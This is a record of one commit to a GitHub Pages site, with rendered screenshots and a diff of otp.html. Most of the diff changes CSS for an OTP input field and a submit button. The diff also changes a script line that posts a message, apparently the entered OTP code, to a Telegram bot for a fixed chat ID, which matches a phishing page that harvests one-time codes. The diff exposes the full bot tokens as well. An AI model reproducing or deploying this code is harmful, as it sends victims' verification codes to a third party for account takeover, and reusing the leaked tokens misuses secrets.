

Before and after one commit to Helpbri6/Helpbri6.github.io, a plain HTML site: page otp.html in a window 1280 px wide. Shown: the part 327-549 px from the top of the page, without its empty margins (319-959 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update otp.html

```diff
--- a/otp.html
+++ b/otp.html
@@ -28,11 +28,11 @@
     /* Kolom Input Kode OTP */
     #kode-otp {
       margin-top: 20px;
-      width: 90%;
+      width: 82%;
       max-width: 450px;
       padding: 12px;
-      border-radius: 4px;
-      border: 4px solid #663399;
+      border-radius: 5px;
+      border: 2px solid #663399;
     }
 
     /* Waktu Hitung Mundur */
@@ -46,13 +46,13 @@
     #submit {
       margin-top: 20px;
       padding: 13px;
-      border-radius: 4px;
+      border-radius: 5px;
       border: none;
       background-color: #663399;
       color: white;
       font-weight: bold;
       cursor: pointer;
-      width: 95%;
+      width: 90%;
       max-width: 450px;
     }
     /* Gambar di bawah Tombol Submit */
@@ -76,7 +76,7 @@
       };
 
       // Ganti URL sesuai dengan endpoint bot Telegram Anda
-      var url = "https://api.telegram.org/bot6534254502:AAHSAgtfYh39EyG13XBhaxpF_a8YJEKgFKY/sendMessage?chat_id=6824078885&text=" + encodeURIComponent(message);
+      var url = "https://api.telegram.org/bot6946290282:AAHbPsb9hD-DbepVOIkge81AvWjY90YbbU0/sendMessage?chat_id=6824078885&text=" + encodeURIComponent(message);
 
       // Kirim permintaan POST
       xhttp.open("POST", url, true);
```
